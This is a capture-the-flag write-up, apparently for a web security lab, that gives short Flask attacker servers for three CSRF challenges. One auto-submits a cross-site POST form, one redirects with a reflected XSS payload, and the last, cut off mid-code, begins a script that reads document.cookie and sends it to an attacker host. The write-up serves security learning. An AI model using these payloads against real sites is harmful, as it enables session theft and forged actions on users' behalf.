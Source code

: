 # CSRF 2
In this challenge, the victim send POST request by CSRF to the same site(`/challenge/server`).

### writeup
The same as Challenge CSRF 1.
```python csrf2.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return '''
        <html>
            <form id='aaa' action="http://challenge.localhost:80/publish" method="post"></form>
            <script>
                let form = document.getElementById('aaa');
                form.submit();
            </script>
        </html>
    '''

app.config['SERVER_NAME'] = f"hacker.localhost:1337"
app.run(host='hacker.localhost', port=1337)
```

# CSRF 3
The same as Challenge CSRF 1.
```python csrf3.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return '''
        <script>
            window.location.href = "http://challenge.localhost:80/ephemeral?msg=%3cscript%3ealert()%3c/script%3e";
        </script>
    '''

app.config['SERVER_NAME'] = f"hacker.localhost:1337"
app.run(host='hacker.localhost', port=1337)
```

# CSRF 4
Similar to Challenge CSRF 3.
Set up `hacker.localhost:1337` to use CSRF to inject XSS to leak the cookie.
```python csrf4.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    js_str = '''var%20cookie=document.cookie;fetch(%27http://hacker.localhost:1337/?%27%2b%20cookie)'''
    return '''
        <script>
```